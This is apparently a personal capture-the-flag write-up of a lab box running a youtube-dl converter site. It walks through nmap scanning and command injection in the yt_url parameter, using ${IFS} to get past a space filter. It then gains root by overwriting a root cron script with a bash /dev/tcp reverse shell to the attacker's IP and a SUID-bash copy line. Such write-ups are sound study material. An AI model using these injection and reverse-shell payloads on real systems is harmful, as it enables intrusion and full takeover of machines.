This is a medium level challenge, but kinda gave me a lot of trouble T.T

The results of the NMAP scan
```diff
nmap 10.10.190.250 -T4 -A -p- -sV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-20 09:34 EDT
Nmap scan report for 10.10.190.250
Host is up (0.16s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION                                                                                                                                                                                                                
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                                                                                                                           
| ssh-hostkey:                                                                                                                                                                                                                              
|   2048 65:1b:fc:74:10:39:df:dd:d0:2d:f0:53:1c:eb:6d:ec (RSA)                                                                                                                                                                              
|   256 c4:28:04:a5:c3:b9:6a:95:5a:4d:7a:6e:46:e2:14:db (ECDSA)                                                                                                                                                                             
|_  256 ba:07:bb:cd:42:4a:f2:93:d1:05:d0:b3:4c:b1:d9:b1 (ED25519)                                                                                                                                                                           
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))                                                                                                                           
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).                                                                                                                      |_http-server-header: Apache/2.4.29 (Ubuntu)                                                                                                                                                                                           
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).                                                                                                                                         
TCP/IP fingerprint:                                                                                                                                                                                                                         
OS:SCAN(V=7.94SVN%E=4%D=8/20%OT=22%CT=1%CU=42516%PV=Y%DS=5%DC=T%G=Y%TM=66C4                                                                                                                                                                 
OS:9EAB%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10F%TI=Z%CI=Z%II=I%TS=A)                                                                                                                                                                 
OS:OPS(O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508                                                                                                                                                                 
OS:ST11NW6%O6=M508ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)                                                                                                                                                                 
OS:ECN(R=Y%DF=Y%T=40%W=F507%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%                                                                                                                                                                 
OS:F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T                                                                                                                                                                 
OS:5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=                                                                                                                                                                 
OS:Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF                                                                                                                                                                 
OS:=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40
OS:%CD=S)

Network Distance: 5 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8888/tcp)
HOP RTT       ADDRESS
1   34.67 ms  10.17.0.1
2   ... 4
5   154.45 ms 10.10.190.250

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 828.36 seconds

```

Port 80 is the only way to proceed. On directory busting this endpoint. We can see that there is an admin panel, but it requires username and password. Now trying to explore how, conversion works. The request is sent with the ID mentioned by the user like, yt_url=https://www.youtube.com/watch?v=<ID>. When I change the parameter as yt_url=test, we get an error message.
```diff
{"WARNING: Assuming --restrict-filenames since file system encoding cannot encode all characters. Set the LC_ALL environment variable to fix this.\nERROR: u'test' is not a valid URL. Set --default-search \"ytsearch\" (or run  youtube-dl \"ytsearch:test\" ) to search YouTube\n"}
```
Upon searching this error message on google I got to know that this a program called youtube-dl. This is where I hit a dead end T.T

I initaially tried to read about this youtube-dl program and how it worked. While, doing so I came across --exec, a feature of this program which allows the user to execute a command on the command line. I tried to exploit this but no luck. Then finally after a lot of failed attempts, I found command injection.
```diff
yt_url=`ls`
```
This lists that admin is an available directory. Now I tried 
```diff
yt_url=`ls admin`
```
But that throws an error.
```diff
{"status":2,"errors":"sh: 1: Syntax error: EOF in backquote substitution\n","url_orginal":"`ls","output":"","result_url":"\/tmp\/downloads\/66c647e0c6528.mp3"}
``` 

Great! I thought that there was some issue with encoding, but no the issue was with the space in between the command. There was some mechanism which seems to be blacklisting this space between these commands. After a little bit of googling came across a wonderful resource. https://gist.github.com/bayotop/6072e9c87632e5f75dd42483b0076294

So ${IFS} can be used to substitute a space in linux, this shell cariable holds characters used to separate text into tokens which includes the space, tab, and the newline.

Now, we can list the items in /admin, which has flag.txt, this seems to be the user flag. We can directly cat it out or we can wget a reverse shell into the target machine and gain shell and then cat the flag. 

After gaining shell, I tried different methodologies to gain privilege escalation like looking for SUID permissions and SUDO access, no luck there. Tried to list the cronjobs running again, no luck. From a hint given by TCM I downloaded pspy which is a program which lists all the process active in a system including the processes run by root without needing root access.

Results from pspy
```diff
2024/08/21 19:20:23 CMD: UID=0     PID=2      | 
2024/08/21 19:20:23 CMD: UID=0     PID=1      | /sbin/init maybe-ubiquity 
2024/08/21 19:21:01 CMD: UID=0     PID=1637   | /bin/sh -c cd /var/www/html/tmp && bash /var/www/html/tmp/clean.sh 
2024/08/21 19:21:01 CMD: UID=0     PID=1636   | /usr/sbin/CRON -f 
2024/08/21 19:23:01 CMD: UID=0     PID=1650   | bash /var/www/html/tmp/clean.sh 
2024/08/21 19:23:01 CMD: UID=0     PID=1649   | /bin/sh -c cd /var/www/html/tmp && bash /var/www/html/tmp/clean.sh 
2024/08/21 19:23:01 CMD: UID=0     PID=1648   | /usr/sbin/CRON -f 

```

This shows that cronjob seems to be running but just not from /etc/crontab. Catting out the contents of /var/www/html/tmp/clean.sh
```diff
$ cat /var/www/html/tmp/clean.sh 
rm -rf downloads
```

Now I tried to modify this script by doing the following
```diff
echo "cp /bin/bash /tmp/bash; chmod +s  /tmp/bash" >> /var/www/html/tmp/clean.sh
```

which at the ground level copies bash to /tmp where it is given SUID permissions. Which when executed gives the user an elevated shell. But, the script does'nt copy the /bin/bash to /tmp/bash even though it is running, could not find any explanation as to why this is happening. I am possibly missing something very basic. Anyways, I decided to proceed with a different approach of echoing the following into the clean.sh script instead
```diff
$ echo "bash -i >& /dev/tcp/10.17.3.108/8081 0>&1" > /var/www/html/tmp/clean.sh
$ cat  /var/www/html/tmp/clean.sh
bash -i >& /dev/tcp/10.17.3.108/8081 0>&1
```
And opened a netcat listener at port 8081. And finally
```diff
nc -nvlp 8081
listening on [any] 8081 ...
connect to [10.17.3.108] from (UNKNOWN) [10.10.67.134] 55410
bash: cannot set terminal process group (1921): Inappropriate ioctl for device
bash: no job control in this shell
root@dmv:/var/www/html/tmp# whoami
root
root@dmv:/var/www/html/tmp# cd /root
root@dmv:~# ls
root.txt
root@dmv:~# cat root.txt
flag{d9b368018e912b541a4eb68399c5e94a}

```

Okay Bye!